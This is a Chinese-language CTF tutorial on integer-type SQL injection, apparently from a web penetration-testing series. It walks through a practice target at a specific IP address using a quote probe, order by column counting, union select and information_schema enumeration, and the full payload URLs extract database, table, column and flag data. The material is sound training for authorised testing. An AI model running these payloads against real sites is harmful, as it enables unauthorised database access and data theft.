


# 第二节：sql注入之sql注入整型报错注入

## 2.0：免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

## 2.1：上节课程答疑

## #2.1.1：sql注入的最终目的是什么？

sql注入的最终目的就是将非法sql语句带入数据库中进行查询，以此来获取数据库中的数据，有些时候也可以通过sql注入获取系统的权限。

## #2.1.2：我们如何才能实现这个最终目的

简单的来说，这个问题可以解释为sql注入的流程是什么。一次简单的sql注入的流程大致如下：

>1.判断注入点

>2.判断注入类型

>3.获取表名、列明、字段名

>4.查寻

## 2.2:什么是整型注入

sql注入从分类上讲大概可以分为整形注入和字符型注入。

在网站正常的功能设计中，一般通过传入参数的不同来返回不同的内容。如ID、年龄等。如果输入的参数为整形，且存在sql注入。则可以被认为存在sql注入。如果传入的参数为字符，且存在sql注入，则可以认为存在字符型注入。正常情况下，字符型注入需要先进行闭合然后在进行注入。

> 整型注入后台sql语句为 : select * from  table where id =8

>字符型注入的后台sql语句为：select * from tables where username="admin"

## 2.3:整型注入练习环境

>http://39.98.88.18:8080/sql/Less-2/index.php?id=1

## 2.4:sql注入实战

1.判断注入点

在id=1的后面添加一个单引号，然后报出错误。说明此处存在注入。

加单引号的目的是为了引发报错，从而证明此处存在注入。报错信息说明此处有语法错误.

2.报错语句分析

>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

我们刚刚在id=1后面添加了一个单引号，此时在后台执行的sql语句为：

>select * from table where id=1'

报错语句中一共有三个引号，其中最左侧，和最右侧的两个引号是语句中为了标明错误的。与后台执行的语句中。剩下的那个引号是我们刚刚自己的添加的。此时，便可以判断这个漏洞为整型sql注入。

3.union联合注入。

整型注入的手工注入一般采用union 联合注入，union的作用是将两个sql语句进行联合。使用时需要注意一下几点：

- union前后的两个sql语句选择的列数必须相同才可以。同时列也必须有相似的数据类型。

- 当两个sql语句进行联合操作时，当前一个语句选择的内容为空，这时候才可以讲后面的语句执行后的结果显示出来。

4.判断列数。

因union联合查询要求前后列数一致，故先判断列数。

>url ： http://39.98.88.18:8080/sql/Less-2/index.php?id=1 order  by 3--+

order by的意思是对数据进行排序，当order by为4时，报错。故此时列数为3列。

--+表示注释，注释掉后方无用的内容。在注入时，注释必不可少。

5.判断回显位置

在这个网页上，显示数据库查询结果的只有两行。但是union语句要求前后列数一致。我们此时我们要进行判断那一列上的查询会将结果显示出来。

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,3%20--+

6.查寻数据库版本

由上可知，在2,3处会将查询的结果给显示出来，所以构造语句：

>url:http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,3%20--+

得出版本为5.5.59.大于5.故存在information_schema.

7.查询数据库名

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata--+

group_concat: group_concat函数是典型的字符串连接函数,讲查询结果以逗号分隔。连接在一起。

8.查询表名

发现有flag这个数据，查询列名的url如下：

>url :  http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27security%27--+

9.查询列名

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27flag%27--+

10.查询数据

>url : http://39.98.88.18:8080/sql/Less-2/index.php?id=-1%20union%20select%201,2,flag%20from%20flag%20--+

123456789即为我们所需数据。到此一次sql手工注入完成。

## 2.5课后习题

课后习题地址：http://39.98.88.18/challenges#%E6%95%B4%E5%9E%8B%E6%B3%A8%E5%85%A5

## 2.6 小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

及时获取更多消息，请关注微信订阅号

